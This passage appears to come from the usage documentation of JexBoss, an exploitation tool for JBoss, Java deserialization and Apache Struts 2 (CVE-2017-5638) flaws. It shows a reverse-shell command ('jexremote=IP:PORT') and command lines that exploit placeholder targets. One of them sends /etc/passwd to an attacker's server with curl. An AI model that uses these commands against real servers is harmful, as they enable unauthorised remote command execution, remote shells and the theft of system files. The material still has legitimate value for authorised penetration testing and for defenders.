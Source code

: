 -   Results and recommendations:

![alt
tag](/Users/aresx/Documents/VulWiki/.resource/JexBoss-JBoss(andothersJavaDeserializationVulnerabilities)verifyandEXploitationTool/media/rId39.png)

Reverse Shell (meterpreter integration)
---------------------------------------

After you exploit a JBoss server, you can use the own jexboss command
shell or perform a reverse connection using the following command:

       jexremote=YOUR_IP:YOUR_PORT

       Example:
         Shell>jexremote=192.168.0.10:4444

-   Example:    ![alt
    tag](/Users/aresx/Documents/VulWiki/.resource/JexBoss-JBoss(andothersJavaDeserializationVulnerabilities)verifyandEXploitationTool/media/rId41.jpg){width="5.833333333333333in"
    height="1.895372922134733in"}

When exploiting java deserialization vulnerabilities (Application
Deserialization, Servlet Deserialization), the default options are: make
a reverse shell connection or send a commando to execute.

Usage examples
--------------

-   For Java Deserialization Vulnerabilities in a custom HTTP parameter
    and to send a custom command to be executed on the exploited server:

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name --cmd 'curl -d@/etc/passwd http://your_server'

-   For Java Deserialization Vulnerabilities in a custom HTTP parameter
    and to make a reverse shell (this will ask for an IP address and
    port of your remote host):

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name

-   For Java Deserialization Vulnerabilities in a Servlet (like
    Invoker):

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/path --servlet-unserialize

-   For Apache Struts 2 (CVE-2017-5638)

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2
